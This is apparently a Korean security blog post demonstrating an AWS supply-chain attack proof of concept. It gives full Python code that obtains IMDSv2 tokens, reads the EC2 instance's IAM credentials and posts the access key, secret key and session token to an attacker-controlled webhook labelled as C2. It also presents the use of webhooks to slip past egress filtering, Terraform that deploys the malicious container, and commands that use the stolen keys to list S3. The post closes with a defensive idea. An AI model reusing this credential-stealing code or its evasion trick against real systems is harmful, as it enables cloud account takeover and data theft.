




## 🛎 사전 지식
일반적으로 클라우드를 설정하고 다루는 방법은 웹 대시보드를 이용하는 방법입니다. 하지만, 다루어야하는 서비스들이 많아지게 되면 웹 대시보드를 이용해서 조작하는 것은 너무 복잡합니다. 이 때, ==IaC(Infrastructure as Code)로 선언한 후 사용하는 것이 일반적==입니다. 대표적으로 사용되는 IaC는 Terraform이 있고, Terraform을 통해서 Azure, AWS, GCP를 선택적으로 사용할 수 있고, IAM의 권한도 코드로 설정할 수 있다고 이해하시면 될 것 같습니다.

### 1. AWS란?
AWS는 전 세계적으로 가장 널리 사용되는 대규모 가상 클라우드 플랫폼입니다. 기업이 On-Premise를 구축하고 관리하는 대신, AWS가 전 세계에 구축해 둔 거대한 데이터 센터의 가상 서버, 데이터베이스, 네트워크 인프라를 ==필요한 만큼 대여해서 사용합니다.==

:::important
1. ==EC2(Elastic Compute Cloud)==: 클라우드 상에서 원격으로 구동되는 가상 서버입니다.
2. ==S3(Simple Storage Service)==: 용량 제한 없이 안전하게 파일과 데이터를 저장할 수 있는 클라우드 기반의 대용량 데이터 창고입니다.
3. ==IAM(Identity and Access Management)==: AWS 자원에 대한 접근 권한을 세밀하게 제어하는 인증/인가 시스템입니다.
:::

### 2. IMDS란?
가상 서버 내부에서 동작하는 애플리케이션이 ==AWS의 다른 자원(예를 들어 S3 버킷)에 접근==해야 할 때가 있습니다. 이때 과거에는 개발자가 서버 내부에 Master Access Key를 파일 형태로 하드코딩해 두곤 했습니다. 하지만 키 유출 위험이 너무나 컸기 때문에 ==AWS는 IMDS(Instance Metadata Service)라는 보안 기능을 도입==했습니다.

IMDS는 ==오직 EC2 내부에서만 접근==할 수 있는 특수 목적의 내부 IP 주소(169.254.169.254)를 제공합니다. 서버 내부의 프로그램이 이 주소로 요청을 보내면, AWS가 해당 EC2에 부여된 권한을 검증한 뒤 몇 시간만 유효한 Session Token을 발급해 줍니다.요즘엔 IMDSv2로 업데이트 되었는데, 이는 세션 토큰을 그냥 주는 v1의 취약점을 보완하여, 먼저 HTTP PUT 요청으로 ==토큰 인증을 거친 프로세스에게만 자격증명을 넘겨주는 방식==입니다.

## 📓 본격적인 시작
필요한 개념은 앞에서 다 설명했습니다. 일반적으로 기업은 Terraform을 통해서 클라우드 환경을 코드로 선언한 후에 실제 클라우드에서 서비스를 진행합니다. 아래에서 PoC를 보여주겠지만, 전체적인 동작 파이프라인은 아래와 같습니다.



우리가 실습을 할 때는 편의상 Docker image를 변조하여 진행하겠지만, 실제로는 ==Docker image의 경우 검증된 키로 해당 image가 정상적인 이미지인지 검증하는 부분이 추가되기 때문에 해당 변조 공격이 통할 것 같지는 않습니다.== 하지만, image에서 설치하는 라이브러리가 변조된 경우에 똑같이 해당 파이프라인이 똑같이 동작하기 때문에 동작이 유사하다고 파악하시면 될 것 같습니다.

### 1. 디렉토리 구조
```bash
├── real-service
│   ├── app.py
│   ├── Dockerfile
│   └── requirements.txt
├── iam.tf
├── main.tf
├── provider.tf
└── terraform.tfstate
```

### 2. 주요 Python 로직 설명
가장 먼저 Docker image를 빌드하겠습니다. app.py는 아래와 같이 생겼습니다. [코드 바로가기](https://github.com/pxxguin/aws-cred-crack/blob/main/app/app.py)
```python
import requests
import time

# this is webhook url
HACKER_C2_URL = "<GET_MY_PIPEDREAM_URL>" # reference pipedream

# i'll get your aws auth!
def extract_aws_creds():
    # get imdsv2 tokens
    token_url = "http://169.254.169.254/latest/api/token" # i'll get token url
    token_headers = {"X-aws-ec2-metadata-token-ttl-seconds": "21600"} # this token will alive until 21600
    token_response = requests.put(token_url, headers=token_headers, timeout=2) # send put requests
    
    # get my defined variables
    token = token_response.text
    headers = {"X-aws-ec2-metadata-token": token}

    # check my role
    role_url = "http://169.254.169.254/latest/meta-data/iam/security-credentials/"
    role_name = requests.get(role_url, headers=headers, timeout=2).text

    # check my creds
    creds_url = f"http://169.254.169.254/latest/meta-data/iam/security-credentials/{role_name}"
    aws_credentials = requests.get(creds_url, headers=headers, timeout=2).json()

    # set my payload with defined variables
    payload = {
        "status": "HEALTH_CHECK_OK",
        "compromised_host": "AWS_EC2_CONTAINER",
        "iam_role": role_name,
        "extracted_keys": {
            # this is main key linked with aws auth!
            "AccessKeyId": aws_credentials.get("AccessKeyId"),
            "SecretAccessKey": aws_credentials.get("SecretAccessKey"),
            "Token": aws_credentials.get("Token")
        }
    }
    
    # send my payload to web api
    requests.post(HACKER_C2_URL, json=payload, timeout=5)

if __name__ == "__main__":
    time.sleep(10) # wait for 10 sec until ec2 instance is ready
    extract_aws_creds()
```

일반적으로 aws credential을 curl 명령 또는 해커의 서버를 하드코딩하여 전송을 할 수 없습니다. ==AWS의 방화벽이 이런 부분들을 모두 필터링== 하기 때문이죠. 하지만 우리가 사용한건 Hook입니다. Hook을 처음 들어보는 사람도 있겠지만, Discord Hook, Slack Hook 등 ==특정한 이벤트가 있을 때 Discord, Slack 등으로 알람을 갈 수 있게 하는게 바로 Hook==이죠. AWS의 방화벽은 Hook을 막지 않습니다. 왜 그럴까요?

만약 토스에서 AWS로 서비스를 한다고 합시다. ==사용자가 결제를 진행했을 때, 결제 알람이 사용자의 휴대폰으로 전송==되어야겠죠? 이게 바로 Hook인데 시용자에게 결제 알람이 가지 않는다면 아마 토스에서는 AWS로 서비스를 운영할 이유가 없습니다. 따라서 ==AWS의 방화벽은 Hook을 필터링 하지 않습니다.== 이러한 이유를 바탕으로 aws credential을 해커의 hook으로 전송한다면 어떻게 될까요?

일단 위 코드를 Docker image로 빌드하겠습니다. 빌드 이름은 <사용자 이름>/<컨테이너 이름>:latest와 같은 형식으로 지정하면 됩니다.

```bash
docker build -t moomin03/malicious-agent:latest .
docker push moomin03/malicious-agent:latest
```

### 3. 주요 Terraform 로직 설명
가장 먼저 ==provider.tf==를 지정해보죠. 여기서 provider는 우리가 어떤 서비스를 이용할껀지를 정의합니다. AWS, Azure, GCP 중 선택하는거죠. [코드 바로가기](https://github.com/pxxguin/aws-cred-crack/blob/main/provider.tf)
```tf
provider "aws" {
  region = "ap-northeast-2" # this is seoul..
}
```

다음으로 ==iam.tf==를 지정해봅시다. 이름에서 알 수 있듯이 iam 사용자의 권한을 지정하는거겠죠? [코드 바로가기](./https://github.com/pxxguin/aws-cred-crack/blob/main/iam.tf)
```tf
# define my role in ec2
resource "aws_iam_role" "ec2_role" {
  name = "demo-ec2-supplychain-role"

  assume_role_policy = jsonencode({
    Version = "2012-10-17"
    Statement = [
      {
        Action = "sts:AssumeRole"
        Effect = "Allow"
        Principal = {
          Service = "ec2.amazonaws.com" # i'll use ec2
        }
      }
    ]
  })
}

# i want to make s3 readable
resource "aws_iam_role_policy_attachment" "s3_readonly" {
  role       = aws_iam_role.ec2_role.name
  policy_arn = "arn:aws:iam::aws:policy/AmazonS3ReadOnlyAccess" # grant s3 read only access fuck write
}
# this is my fk profile
resource "aws_iam_instance_profile" "ec2_profile" {
  name = "demo-ec2-instance-profile"
  role = aws_iam_role.ec2_role.name
}
```
복잡해보이지만, 옆에 영어로 주석을 달아놓았습니다. ==우리가 EC2에서 사용할 유저 정보를 입력하는거고, s3의 경우 write를 하면 안되기 때문에 read only로 선언해두었습니다.== 일반적으로 기업에서 iam을 이런식으로 지정하겠죠?

마지막으로 가장 핵심인 ==main.tf==인데, 사용할 서버의 이미지를 불러오고, EC2를 실행한 이후에 우리가 아까 push한 이미지를 가져오도록 동작합니다. 그리고 현재 보안 체계에 맞게 IMDBSv2로 지정했습니다. [코드 바로가기](https://github.com/pxxguin/aws-cred-crack/blob/main/main.tf)
```tf
# i will use latest ama linux
data "aws_ami" "amazon_linux" {
  most_recent = true
  owners      = ["amazon"]
  filter {
    name   = "name"
    values = ["al2023-ami-2023*-x86_64"]
  }
}

resource "aws_instance" "victim_server" {
  ami                  = data.aws_ami.amazon_linux.id
  instance_type        = "t3.micro" 
  iam_instance_profile = aws_iam_instance_profile.ec2_profile.name

  metadata_options {
    http_endpoint               = "enabled"
    http_tokens                 = "required" # this enforces IMDBSv2
    http_put_response_hop_limit = 2          # container access opened
  }

  # if i run in ec2? i'll run docker container
  user_data = <<-EOF
              #!/bin/bash 
              dnf update -y
              dnf install -y docker
              systemctl start docker
              systemctl enable docker

              docker run -d --net=host --name production-app moomin03/malicious-agent:latest
              EOF

  tags = {
    Name = "SupplyChain-POC-Target"
  }
}
```

### 4. 실행하기
이제 terraform을 실행해볼까요? 
```bash
terraform init
terraform apply -auto-approve
```



위와 같이 ==정상적으로 EC2가 생성==된 것을 확인할 수 있습니다.

### 5. Hook Success?
pipedream에 들어가보면 아래 그림과 같이 EC2의 Maintainer의 Auth키가 탈취되어있는 것을 확인할 수 있습니다. 여기서 [pipedream](https://pipedream.com/) 에서 Hook을 발급받을 수 있습니다.



## ⚔ AWS credential로 무엇을 할 수 있는가?
```bash
export AWS_ACCESS-KEY_ID="<입력받은 키>"
export AWS_SECRET_ACCESS_KEY="<입력받은 키>"
export AWS_SESSION_TOKEN="<입력받은 키>"

aws s3 ls
```
위에서 ==Hook으로 왔던 키 값을 로컬의 환경변수에 입력==하고 난 이후에 ==aws-cli 환경에서 aws s3 ls를 입력==하면 아래와 같은 결과가 출력되고, 해당 서비스의 S3 등을 조회하고 다운받을 수 있습니다. 우리가 운영하는 서비스는 실제 서비스가 아니기 때문에 별도의 S3 데이터가 존재하지 않지만, ==운영중인 서비스라면 고객 정보나, 기타 민감한 정보가 포함==될 수 있겠죠?




## 😸 요약
우리가 지금까지 했던 부분을 요약해보겠습니다. 실제 서비스에 사용되는 수 없이 많은 라이브러리들 중 하나의 라이브러리의 Maintainer 계정을 탈취하거나, 내가 엄청 유명한 라이브러리를 만들거나, 실제 유명한 라이브러리에 기여를 해서 권한을 얻거나 하는 과정을 거칩니다. 이후, 해커의 하드코딩되어있는 서버주소나 curl 명령을 도입하면 AWS 방화벽에 막힐 수 있으니, Hook을 사용하여 AWS credential을 탈취하는 로직을 라이브러리나 Docker image에 작성합니다. 실제로 서비스를 하는 기업이나 사용자가 우리가 배포한 라이브러리나 Docker image를 사용한다면 바로 해당 서비스의 AWS Credential이 Hacker의 Hook으로 전송됩니다. 이 과정을 통해 해당 서비스의 저장소를 조회 및 탈취할 수 있습니다.

## 📋 결론
물론 이 공격의 전제가 Maintainer의 계정을 탈취해야한다는 겁니다. 하지만, pip를 비롯한 npm을 사용하는 유명한 서비스들은 정말 수 없이 많은 라이브러리들을 사용합니다. 이 라이브러리 중 한 개라도 해당 Maintainer의 계정이 탈취되지 않을거라는 보장을 할 수 있을까요? 이런 공격을 막기란 쉽지 않아보입니다. AWS의 취약점이 아닌 라이브러리에 대한 취약점이니깐요. 

이 문제에 대한 해결책을 고안하기 위해, 일반적인 애플리케이션 프로세스가 왜 굳이 내부 메타데이터 주소(169.254.169.254)를 호출하여 자격증명을 요구하는가? 라는 질문을 해야합니다. 만약 ==커널 단에서 시스템 콜을 실시간으로 감시하다가, 허가되지 않은 프로세스가 IMDS 주소로 접근하는 순간을 포착하여 즉시 kill==할 수 있다면 이 치명적인 공급망 공격 체인은 시작되기도 전에 무력화됩니다.

오픈소스 공급망 위협이 폭발적으로 증가하는 현 시점에서 완벽히 구현해 낸다면, 전 세계 모든 기업들이 비싼 비용을 지불하고서라도 도입하려는 독보적인 보안 제품이 될 것 같아요..